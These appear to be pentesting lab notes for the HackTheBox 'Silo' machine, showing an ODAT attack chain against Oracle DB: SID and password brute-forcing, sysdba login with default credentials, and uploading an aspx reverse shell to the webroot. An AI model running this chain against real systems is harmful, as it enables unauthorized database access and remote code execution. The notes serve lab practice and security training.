 # Oracle
----------

## ODAT

Refer HTB Silo


Enumerating Oracle DB on port 1521:
Bruteforce SID:
```bash
./odat.py sidguesser -s 10.10.10.82 -p 1521
[+] 'XE' is a valid SID.
```

Once we have a valid SID, we can brute force user accounts.
Wordlist is very important here.
Copy the default metasploit wordlist into  /opt/odat/accounts .
```bash
./odat.py passwordguesser -s 10.10.10.82 -d XE

Valid credentials found: scott/tiger.
```

Once we have creds we can log in using sqlplus:
```bash
sqlplus64 scott/tiger@10.10.10.82:1521/XE
```

Log in with sudo privileges:
```bash
sqlplus64 scott/tiger@10.10.10.82:1521/XE 'as sysdba'
```

If we have write privileges, we can try uploading a file and accessing it from a webserver:
```bash
./odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile C:\\inetpub\\wwwroot cbbn.txt cbbn.txt
```

Upload a aspx revershell :
```bash
/odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile C:\\inetpub\\wwwroot revshell.aspx revshell.aspx
```